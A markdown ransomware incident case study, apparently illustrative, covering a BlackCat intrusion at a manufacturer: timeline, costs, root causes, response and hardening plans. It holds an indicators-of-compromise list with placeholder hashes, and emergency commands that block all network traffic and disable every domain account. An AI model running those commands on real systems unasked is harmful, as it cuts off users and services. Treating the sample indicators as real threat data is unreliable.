

**Encryption Algorithm**:
- **File Encryption**: ChaCha20 (fast, efficient)
- **Key Encryption**: RSA-4096 (asymmetric)
- **File Extension**: `.blackcat`
- **Ransom Note**: `RECOVER-FILES.txt` in every directory

**Systems Encrypted**:
- 2,847 servers (95% of server infrastructure)
- 4,230 workstations
- All file servers (18TB of data)
- Database servers (SAP, SQL)
- Backup servers (with backup files)
- Domain controllers
- Manufacturing network systems

---

## Timeline



### Detailed Event Log

| Date/Time (UTC) | Event | Impact |
|-----------------|-------|--------|
| Aug 15-28 | Reconnaissance phase | No detection |
| Aug 29, 10:15 | Phishing email sent | 147 employees targeted |
| Aug 29, 10:47 | IT Director clicks link | Credentials compromised |
| Aug 29, 11:23 | VPN access from Romania | No MFA, no alert |
| Aug 29, 11:30 | Initial foothold established | Network access gained |
| Aug 30, 03:00 | Mimikatz credential dump | Domain admin compromised |
| Aug 31, 08:00 | Domain dominance achieved | Full network control |
| Sept 1, 00:00 | Persistence mechanisms deployed | 50+ backdoors installed |
| Sept 2, 02:00 | Security tools disabled | Antivirus, logging disabled |
| Sept 3-6 | Data exfiltration | 500GB stolen |
| Sept 14, 06:00 | Ransomware deployment | All systems encrypted |
| Sept 14, 06:47 | Discovery by employee | Operations halted |
| Sept 14, 07:00 | Incident declared | Emergency response |
| Sept 14, 07:30 | Systems shut down | Prevent further spread |
| Sept 14, 19:00 | Forensics team engaged | Investigation begins |
| Sept 15, 10:00 | Law enforcement notified | FBI involved |
| Sept 16, 14:00 | Backup recovery attempted | Backups also encrypted |
| Sept 21, 00:00 | Ransom deadline expires | Ransom doubles to $9M |
| Sept 28, 00:00 | Data leak begins | Partial data published |
| Oct 2, 00:00 | Systems fully restored | 18 days total downtime |

---

## Impact Assessment

### Operational Impact



### Business Continuity Impact

**Manufacturing Operations**:
- All 12 manufacturing facilities shut down
- 3,500 employees unable to work
- Production lines halted for 18 days
- $45 million in lost revenue ($2.5M per day)
- Contractual penalties for missed deliveries
- Supply chain disruptions

**Customer Impact**:
- 230 customers affected by delivery delays
- 45 critical orders missed
- 12 customers switched to competitors
- Long-term relationship damage
- Potential lawsuit from major customer

**Employee Impact**:
- 3,500 employees temporarily furloughed
- Payroll delays (2 weeks)
- Personal information exposed
- Productivity loss
- Morale impact

### Financial Impact

**Direct Costs**:

| Category | Cost | Details |
|----------|------|---------|
| Ransom Payment | $0 | Decision not to pay |
| Incident Response | $1,200,000 | Forensics, consultants, overtime |
| System Recovery | $3,500,000 | Hardware, software, labor |
| Data Recovery | $800,000 | Backup restoration, data reconstruction |
| Legal Fees | $1,500,000 | Regulatory, customer contracts |
| Cybersecurity Improvements | $2,700,000 | EDR, backups, training, staff |
| **Total Direct** | **$9,700,000** | |

**Indirect Costs**:

| Category | Cost | Details |
|----------|------|---------|
| Lost Revenue | $45,000,000 | 18 days production shutdown |
| Contractual Penalties | $3,200,000 | Missed delivery SLAs |
| Customer Churn | $8,500,000 | 12 customers lost (annual value) |
| Stock Price Impact | $120,000,000 | 18% decline in market cap |
| Insurance Deductible | $500,000 | Cyber insurance claim |
| Regulatory Fines | $1,600,000 | Data breach notifications |
| **Total Indirect** | **$178,800,000** | |

**Total Estimated Impact**: **$188.5 million**

### Data Breach Impact

**Exfiltrated Data Published**:

After the ransom deadline expired, the attackers published data on their leak site:



**Published Data Includes**:
- Customer contracts with pricing (competitive intelligence lost)
- Proprietary manufacturing processes
- Financial forecasts and strategic plans
- Employee personal information (2,800 employees)
- Trade secrets and patents pending
- Supplier agreements and pricing

**Regulatory Obligations** (see [../compliance.md](../compliance.md)):
- **GDPR**: 2,800 EU employees affected - €1.2M fine
- **State Data Breach Laws**: Notification to 1,200 California residents
- **SEC Disclosure**: Material event requiring 8-K filing
- **Customer Contracts**: Breach of confidentiality clauses

### Reputational Damage

**Media Coverage**:
- Front page of Wall Street Journal
- Featured in cybersecurity industry reports
- Used as case study in negative context
- Investor confidence shaken

**Customer Trust**:
- 12 customers terminated contracts
- 45 customers demanded security audits
- New customer acquisition down 35%
- Difficulty in competitive bids

**Industry Standing**:
- Removed from "secure supplier" lists
- Increased scrutiny from partners
- Insurance premiums increased 400%
- Difficulty attracting talent

---

## Root Cause Analysis

### The Five Whys



### Contributing Factors

#### 1. Human Factors

**Security Awareness**:
- Annual training only (not continuous)
- No phishing simulations
- Training completion: 67% (many skipped)
- No consequences for risky behavior
- IT Director (victim) overworked, distracted

**Culture Issues**:
- "It won't happen to us" mentality
- Security seen as IT problem, not business problem
- Productivity prioritized over security
- Password sharing common practice
- No security champions

#### 2. Technical Vulnerabilities

**Authentication** (see [../authentication.md](../authentication.md)):
- ❌ No multi-factor authentication (MFA)
- ❌ Weak password policy (8 characters minimum)
- ❌ No password breach checking
- ❌ Shared admin accounts
- ❌ No privileged access management (PAM)

**Endpoint Security** (see [../application_security.md](../application_security.md)):
- ❌ Traditional antivirus only (signature-based)
- ❌ No endpoint detection and response (EDR)
- ❌ No application whitelisting
- ❌ Local admin rights on workstations
- ❌ No USB device control

**Email Security**:
- ❌ Basic spam filter only
- ❌ No advanced threat protection
- ❌ No email authentication (DMARC, SPF, DKIM)
- ❌ No link rewriting/sandboxing
- ❌ No attachment sandboxing

**Network Security** (see [../network_security.md](../network_security.md)):
- ❌ No network segmentation (flat network)
- ❌ IT and OT networks connected
- ❌ No zero trust architecture
- ❌ Over-permissive firewall rules
- ❌ No intrusion detection system (IDS)

**Backup Strategy**:
- ❌ Backups on same network (encrypted by ransomware)
- ❌ No offline/air-gapped backups
- ❌ No immutable backups
- ❌ Backups not tested regularly
- ❌ No backup monitoring

**Monitoring & Detection** (see [../monitoring_auditing.md](../monitoring_auditing.md)):
- ❌ No SIEM (Security Information and Event Management)
- ❌ No Security Operations Center (SOC)
- ❌ Logs not centralized
- ❌ No anomaly detection
- ❌ No privileged account monitoring

#### 3. Organizational Failures

**Leadership**:
- No Chief Information Security Officer (CISO)
- Security reported to IT Director (conflict of interest)
- No board-level security oversight
- Security budget: 1.5% of IT budget (industry standard: 12-15%)

**Governance**:
- No cyber risk assessment
- No business continuity plan
- No disaster recovery plan tested
- No incident response plan
- No crisis communication plan

**Third-Party Risk**:
- No vendor security assessments
- No supply chain security requirements
- Critical vendors not vetted
- No contracts with security requirements

#### 4. Process Gaps

**Vulnerability Management**:
- No vulnerability scanning program
- No patch management process
- Systems months behind on patches
- No penetration testing
- No red team exercises

**Access Management** (see [../authorization.md](../authorization.md)):
- No regular access reviews
- No least privilege principle
- No just-in-time (JIT) access
- Dormant accounts not disabled
- No separation of duties

**Change Management**:
- No security review for changes
- No change approval process
- Production changes without testing
- No rollback procedures

---

## Response and Recovery

### Immediate Response (Hour 0-24)



**Critical Decisions**:

1. **Do Not Pay Ransom** (Hour 4)
   - **Rationale**:
     - No guarantee of decryption
     - Funds terrorism/criminal activity
     - Encourages future attacks
     - Legal and ethical concerns
     - FBI recommendation against payment
   - **Consequences Accepted**:
     - Longer recovery time
     - Data will likely be published
     - Reputational damage
     - Regulatory scrutiny

2. **Complete System Shutdown** (Hour 2)
   - All production systems powered off
   - Manufacturing operations halted
   - Revenue loss: $2.5M per day accepted
   - Prevent further spread of ransomware

3. **Engage External Experts** (Hour 6)
   - Forensics firm: Mandiant
   - Legal counsel: Specialized cyber law firm
   - PR firm: Crisis communications
   - Insurance: Cyber insurance carrier

**Initial Actions Taken**:

```bash
# Emergency containment procedures

# 1. Disconnect from internet
# Disable WAN routers, firewall rules
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -P OUTPUT DROP

# 2. Shut down critical systems (orderly)
# Preserve evidence, prevent further encryption
shutdown /s /t 60 /c "Emergency shutdown - ransomware containment"

# 3. Disable user accounts
# Prevent attacker access if still present
Get-ADUser -Filter * | Disable-ADAccount

# 4. Change all passwords (from clean system)
# All domain admin, service accounts
# Use out-of-band communication

# 5. Document everything
# Screenshots, logs, evidence preservation
```

### Investigation Phase (Days 1-7)

**Forensic Analysis**:



**Key Findings**:

1. **Attack Duration**: 16 days (Aug 29 - Sept 14)
2. **Initial Vector**: Spear phishing
3. **Ransomware Variant**: BlackCat/ALPHV
4. **Persistence**: 50+ backdoors identified
5. **Data Exfiltration**: 500GB to Mega.nz and custom server
6. **Attacker Infrastructure**:
   - 12 IP addresses (VPN/Tor exit nodes)
   - 3 command and control (C2) domains
   - 2 file exfiltration destinations

**Indicators of Compromise (IOCs)**:

```yaml
iocs:
  ip_addresses:
    - 185.143.223.47  # Initial VPN access
    - 185.220.101.45  # Lateral movement
    - 102.89.23.117   # Data exfiltration
    
  file_hashes:
    - SHA256: a1b2c3d4e5f6... # BlackCat ransomware
    - SHA256: f6e5d4c3b2a1... # Cobalt Strike beacon
    - SHA256: 1a2b3c4d5e6f... # Mimikatz
    
  domains:
    - micros0ft-alerts.com    # Phishing domain
    - update-services.net     # C2 domain
    - backup-service.org      # C2 domain
    
  file_paths:
    - C:\Windows\Temp\update.exe
    - C:\Windows\Temp\staging\
    - C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\svchost.exe
    
  scheduled_tasks:
    - "Windows Update Service"
    - "System Backup Task"
    - "Security Update Check"
    
  registry_keys:
    - HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\WindowsUpdate
```

**Attacker Attribution**:
- **Group**: BlackCat/ALPHV (Ransomware-as-a-Service)
- **Origin**: Eastern Europe (likely Russia-affiliated)
- **Motivation**: Financial
- **TTPs**: Consistent with APT group patterns
- **Infrastructure**: Shared with other BlackCat attacks

### Recovery Phase (Days 7-25)

**Recovery Strategy**:



**Recovery Priorities**:

1. **Week 1**: Critical Infrastructure
   - New Active Directory forest (clean build)
   - Email system (Microsoft 365 migration)
   - File servers (from offsite backups)
   - Financial systems

2. **Week 2**: Core Business Systems
   - ERP system (SAP) - from backups
   - Manufacturing execution systems
   - SCADA/HMI (operational technology)
   - Customer-facing systems

3. **Week 3**: Remaining Systems
   - Employee workstations
   - Non-critical applications
   - Development environments
   - Archive systems

**Clean Room Build Process**:

```bash
# Step 1: Isolated network setup
# Physical isolation, no connection to compromised network
# New hardware, new switches, new routers

# Step 2: Build new domain controllers
# Windows Server 2022 (latest, fully patched)
Install-WindowsFeature -Name AD-Domain-Services
Install-ADDSForest -DomainName "new.manufactureco.local"

# Step 3: Harden immediately
# CIS Benchmarks, security baselines
Import-GPO -BackupId [BACKUP_ID] -Path C:\GPO_Backups\ -TargetName "Secure_Baseline"

# Step 4: Deploy security stack
# EDR on all systems BEFORE connecting to network
msiexec /i CrowdStrike_Sensor.msi /qn

# Step 5: Migrate data
# Only from verified clean backups
# Scan all files before restoration
Get-ChildItem -Recurse | ForEach-Object {
    # Scan with multiple AV engines
    # Verify file integrity
    # Check against IOCs
}

# Step 6: Staged rollout
# Test thoroughly before production
# Monitor closely for signs of reinfection
```

**Data Recovery Challenges**:

| System | Recovery Method | Recovery Time | Data Loss |
|--------|----------------|---------------|-----------|
| Active Directory | Rebuild from scratch | 3 days | None (rebuilt) |
| File Servers | Offsite backups | 5 days | 2 days of changes |
| SAP ERP | Database backup | 7 days | 1 day of transactions |
| Email | Microsoft 365 | 2 days | None (cloud-based) |
| Manufacturing Data | Manual reconstruction | 10 days | Significant |
| Engineering Files | Offsite backups | 4 days | 1 week of work |
| Financial Data | Offsite backups | 3 days | Minimal |

**Key Recovery Metrics**:



**Recovery Costs**:

| Category | Cost | Details |
|----------|------|---------|
| New Hardware | $1,200,000 | Servers, network equipment |
| Software Licenses | $800,000 | OS, applications, EDR |
| Labor (Internal) | $600,000 | IT staff overtime (8,000 hours) |
| Labor (External) | $1,500,000 | Consultants, specialists |
| Data Recovery | $400,000 | Specialist services |
| Testing & Validation | $200,000 | QA, security testing |
| **Total** | **$4,700,000** | |

### Security Hardening (Days 7-90)

**Immediate Security Improvements**:

1. **Multi-Factor Authentication (MFA)** (see [../authentication.md](../authentication.md))

```powershell
# Deploy MFA for all users
# Enforce at AD level
Set-MsolUser -UserPrincipalName $user -StrongAuthenticationRequirements $req

# Conditional Access Policies
# Require MFA for:
# - All admin accounts
# - VPN access
# - Cloud applications
# - High-risk sign-ins

# Phishing-resistant MFA for admins
# FIDO2 security keys, Windows Hello for Business
```

2. **Endpoint Detection and Response (EDR)**

```yaml
edr_deployment:
  vendor: CrowdStrike Falcon
  coverage: 100% of endpoints
  features:
    - real_time_detection
    - behavioral_analysis
    - threat_intelligence
    - automated_response
    - forensic_capabilities
  
  policies:
    prevention:
      - block_ransomware_behavior
      - prevent_credential_dumping
      - block_lateral_movement_tools
    detection:
      - anomalous_process_execution
      - suspicious_network_activity
      - file_encryption_attempts
    response:
      - isolate_endpoint
      - kill_malicious_processes
      - alert_SOC_team
```

3. **Email Security**

```yaml
email_security:
  vendor: Proofpoint
  features:
    url_defense:
      - rewrite_all_urls
      - sandbox_suspicious_links
      - time_of_click_protection
    
    attachment_defense:
      - sandbox_all_attachments
      - block_malicious_file_types
      - virus_scanning
    
    email_authentication:
      - DMARC: enforce
      - SPF: strict
      - DKIM: required
    
    threat_intelligence:
      - real_time_threat_data
      - phishing_detection
      - impersonation_protection
    
  policies:
    - block_external_emails_pretending_internal
    - quarantine_suspicious_messages
    - banner_external_emails
    - block_executable_attachments
```

4. **Network Segmentation** (see [../network_security.md](../network_security.md))



**Segmentation Rules**:
- IT and OT networks physically separated (data diode)
- Tiered administrative model (Tier 0, 1, 2)
- Workstations cannot communicate directly with servers
- Servers segmented by function/criticality
- Management network out-of-band

5. **Privileged Access Management (PAM)**

```yaml
pam_implementation:
  solution: CyberArk
  
  features:
    password_vaulting:
      - automatic_password_rotation
      - session_recording
      - just_in_time_access
      - approval_workflows
    
    session_management:
      - privileged_session_monitoring
      - session_recording_and_audit
      - suspicious_activity_alerting
      - automatic_session_termination
    
    credential_management:
      - eliminate_shared_accounts
      - unique_credentials_per_admin
      - temporary_credential_issuance
      - automatic_credential_expiration
  
  policies:
    - require_approval_for_production_access
    - time_limited_access (max 8 hours)
    - dual_approval_for_critical_systems
    - no_persistent_admin_rights
```

6. **Backup Strategy Overhaul**

```yaml
backup_strategy:
  architecture: 3-2-1-1-0 rule
    # 3 copies of data
    # 2 different media types
    # 1 offsite backup
    # 1 offline/air-gapped backup
    # 0 errors (verified backups)
  
  implementation:
    primary_backup:
      location: on_premise
      technology: Veeam
      frequency: continuous (every 4 hours)
      retention: 30 days
      
    secondary_backup:
      location: AWS S3
      technology: immutable_storage
      frequency: daily
      retention: 90 days
      
    tertiary_backup:
      location: offsite_datacenter
      technology: tape (LTO-9)
      frequency: weekly
      retention: 7 years
      air_gapped: true
      
    verification:
      automated_testing: weekly
      full_restore_test: monthly
      disaster_recovery_drill: quarterly
  
  security:
    - encrypted_backups (AES-256)
    - separate_backup_network
    - dedicated_backup_accounts
    - MFA_for_backup_access
    - immutable_backups (cannot_be_deleted)
    - backup_monitoring_and_alerting
```

7. **Security Operations Center (SOC)** (see [../monitoring_auditing.md](../monitoring_auditing.md))

```yaml
soc_implementation:
  model: Hybrid (internal + MSSP)
  coverage: 24x7x365
  
  technology_stack:
    siem: Splunk Enterprise Security
    soar: Palo Alto Cortex XSOAR
    edr: CrowdStrike Falcon
    ndr: Darktrace
    threat_intelligence: Multiple feeds
    
  capabilities:
    detection:
      - real_time_monitoring
      - behavioral_analytics
      - threat_hunting
      - anomaly_detection
      
    response:
      - automated_playbooks
      - incident_response
      - threat_containment
      - forensic_analysis
      
    intelligence:
      - threat_intelligence_integration
      - IOC_management
      - vulnerability_intelligence
      - dark_web_monitoring
  
  metrics:
    - mean_time_to_detect: < 15 minutes
    - mean_time_to_respond: < 1 hour
    - mean_time_to_contain: < 4 hours
    - false_positive_rate: < 5%
```

### Long-term Strategic Improvements (90+ Days)

**1. Zero Trust Architecture** (see [../network_security.md](../network_security.md))



**Zero Trust Principles**:
- Verify explicitly (identity, device, location)
- Use least privilege access
- Assume breach
- Inspect and log all traffic
- Microsegmentation
- Continuous validation

**2. Security Culture Transformation**

```yaml
security_awareness_program:
  frequency: continuous
  
  training_modules:
    onboarding:
      - security_fundamentals
      - company_policies
      - reporting_procedures
      - hands_on_exercises
      
    monthly:
      - micro_learning (10 minutes)
      - current_threat_landscape
      - real_incident_case_studies
      
    quarterly:
      - phishing_simulations
      - security_workshops
      - role_specific_training
      
  gamification:
    - security_champions_program
    - recognition_rewards
    - team_competitions
    - leaderboards
    
  metrics:
    - training_completion: target 100%
    - phishing_click_rate: target < 5%
    - reporting_rate: target > 80%
    - security_incidents: trend down
    
  accountability:
    - consequences_for_risky_behavior
    - rewards_for_security_vigilance
    - manager_accountability
```

**3. Incident Response Program**

```yaml
incident_response:
  team_structure:
    incident_commander: CISO
    technical_lead: Security Engineering Manager
    communications_lead: Legal/PR
    business_continuity: Operations VP
    
  playbooks:
    - ransomware_response
    - data_breach_response
    - ddos_response
    - insider_threat
    - supply_chain_compromise
    
  capabilities:
    preparation:
      - incident_response_plan (tested quarterly)
      - communication_templates
      - vendor_relationships
      - cyber_insurance
      
    detection:
      - 24x7_monitoring
      - automated_alerting
      - threat_hunting
      
    containment:
      - isolation_procedures
      - evidence_preservation
      - forensic_readiness
      
    eradication:
      - root_cause_analysis
      - remediation_procedures
      - verification_testing
      
    recovery:
      - restore_from_backups
      - rebuild_procedures
      - validation_testing
      
    lessons_learned:
      - post_incident_review
      - update_playbooks
      - improve_controls
  
  testing:
    tabletop_exercises: quarterly
    simulations: semi_annual
    red_team_exercises: annual
```

**4. Third-Party Risk Management**

```yaml
vendor_risk_management:
  assessment_process:
    pre_engagement:
      - security_questionnaire
      - evidence_review (SOC2, ISO27001)
      - risk_assessment
      - contract_negotiation
      
    ongoing:
      - annual_reassessment
      - continuous_monitoring
      - incident_notification_requirements
      - right_to_audit
      
  vendor_categories:
    critical:
      - annual_audits
      - quarterly_reviews
      - security_requirements_in_contract
      - cyber_insurance_proof
      
    high:
      - annual_assessment
      - security_attestation
      - breach_notification_clause
      
    medium:
      - biennial_assessment
      - basic_security_requirements
      
  controls:
    - vendor_access_monitoring
    - least_privilege_access
    - separate_vendor_network
    - time_limited_access
```

---

## Lessons Learned

### What Went Well ✅

1. **Quick Detection**
   - Ransomware detected within 3 hours of deployment
   - Faster than many ransomware incidents (average: 8-24 hours)

2. **Decisive Action**
   - Immediate system shutdown prevented further spread
   - Clear decision not to pay ransom
   - Executive leadership engaged quickly

3. **Communication**
   - Transparent communication with stakeholders
   - Law enforcement engaged immediately
   - Insurance carrier notified promptly

4. **Some Backups Available**
   - Weekly offsite backups (though outdated)
   - Enabled partial recovery
   - Better than no backups

5. **Cyber Insurance**
   - Insurance covered $4M of costs
   - Access to expert resources
   - Legal and PR support included

### What Didn't Go Well ❌

1. **Prevention Failed Completely**
   - Basic phishing email succeeded
   - No MFA = single point of failure
   - Flat network enabled lateral movement
   - Weak security culture

2. **Detection Too Late**
   - Attackers in network for 16 days undetected
   - No SOC, SIEM, or continuous monitoring
   - Credential dumping not detected
   - Data exfiltration not detected

3. **Backups Inadequate**
   - On-network backups encrypted
   - No offline/air-gapped backups
   - Not tested regularly
   - One week of data loss

4. **Response Capability**
   - No incident response plan
   - No forensic readiness
   - Reliant on external resources
   - Communication plan inadequate

